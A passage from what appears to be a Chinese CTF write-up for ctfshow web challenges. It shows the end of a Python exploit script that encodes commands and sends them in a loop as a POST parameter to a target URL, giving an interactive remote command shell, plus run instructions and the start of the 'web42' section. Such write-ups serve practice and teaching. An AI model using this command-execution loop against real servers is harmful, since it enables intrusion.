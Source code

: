 ```python
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))
   data={
       'c':urllib.parse.unquote(param)
       }
   r=requests.post(url,data=data)
   print("\n[*] result:\n"+r.text)

```

将两个文件放在同一个文件夹，运行exp.py即可

羽师傅nb

![image-20241124223329525](../assets/image-20241124223329525.png)

> 注意链接要用http不能用https

#### web42

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 20:51:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


```